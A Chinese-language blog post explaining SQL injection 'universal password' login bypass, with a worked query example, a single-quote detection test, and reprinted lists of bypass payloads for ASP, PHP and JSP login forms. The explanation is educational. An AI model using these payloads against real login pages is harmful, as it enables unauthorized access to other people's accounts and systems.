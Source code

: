 ```yaml
---
layout: post
title: SQL 注入（二）
desc: ""
keywords: ""
date: 2016-06-25
categories: []
tags: []
---
```


## OR 漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL 查询语句为

```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```

而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```

 

此时的效果是用户名为 null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条 SQL 查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自 [chengker](http://chengkers.lofter.com/post/14c64b_379726) 的博客

### ASP ASPX 万能密码

> - "or"a"="a
> - ')or('a'='a
> - or 1=1--
> - 'or 1=1--
> - a'or' 1=1--
> - "or 1=1--
> - 'or'a'='a
> - "or"="a'='a
> - 'or''='
> - 'or'='or'
> - 1 or '1'='1'=1
> - 1 or '1'='1' or 1=1
> - 'OR 1=1%00
> - "or 1=1%00
> - 'xor
> - 用户名'UNION Select 1,1,1 FROM admin Where''=' （替换表名 admin） 密码 1
> - ..admin'or'a'='a 密码随便

### PHP 万能密码

> - 'or 1=1/*
> - User: something
> - Pass: 'or'1'='1

### JSP 万能密码

> - 1'or'1'='1
> - admin' or 1=1/*